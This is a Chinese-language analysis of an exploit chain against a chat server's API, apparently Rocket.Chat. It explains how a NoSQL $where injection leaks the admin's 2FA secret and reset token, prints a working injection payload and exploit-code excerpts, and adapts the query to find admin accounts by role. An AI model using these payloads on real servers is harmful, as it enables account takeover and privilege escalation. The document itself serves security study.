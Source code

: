 首先通过 getPasswordPolicy() 处的 token 泄露漏洞，修改普通用户的密码。然而需要注意的是，修改密码的 token 长度为 43 个字符，这个爆破的工作量是很大的，且耗时非常长。因此在获取普通用户权限这一步，可以直接通过注册功能完成，而不需要爆破验证的 token。试想若是攻击目标关闭了注册功能，那意味着我们无法获取到已注册用户的信息，也就无计可施了。

```
# Privilege Escalation to admin
## Getting secret for 2fa
secret = twofactor(target,lowprivmail)
```

第二步是获取管理员账号的 2FA 密钥，其中的 twofactor() 利用了第二处漏洞。

```
def twofactor(url,email):
    # Authenticating
    # ...
    print(f"[+] Succesfully authenticated as {email}")

    # Getting 2fa code
    cookies = {'rc_uid': userid,'rc_token': token}
    headers={'X-User-Id': userid,'X-Auth-Token': token}
    payload = '/api/v1/users.list?query={"$where"%3a"this.username%3d%3d%3d\'admin\'+%26%26+(()%3d>{+throw+this.services.totp.secret+})()"}'
    r = requests.get(url+payload,cookies=cookies,headers=headers)
    code = r.text[46:98]
```

在这个函数中直接默认了管理员账号的 username 为 "admin"，但是经过测试，并不是所有可攻击的目标都以 "admin" 作为 username，那么就需要一种方法来获取管理员账号的 username。观察 mongodb 中存储的用户数据：

```
{
    "_id" : "x", 
    ...
    "services" : { 
        "password" : { 
            ...
        }, 
        ...,
        "emails" : [ { 
            "address" : "x@x.com", 
            "verified" : true
        } ], 
        "roles" : [ "admin" ], 
        "name" : "username",
        ...
}
```

每一个用户字段中都有一条`{"roles":[""]}`，通过`{"$where":"this.roles.indexOf('admin')>=0"}`来查询管理员账号的信息，随后便可获取管理员的 username。

第三步是修改管理员账号的密码，以获得 admin 的权限。

```
## Sending Reset mail
print(f"[+] Resetting {adminmail} password")
forgotpassword(adminmail,target)

## Getting admin reset token through nosql injection authenticated
token = admin_token(target,lowprivmail)

## Resetting Password
code = oathtool.generate_otp(secret)
changingadminpassword(target,token,code)
```
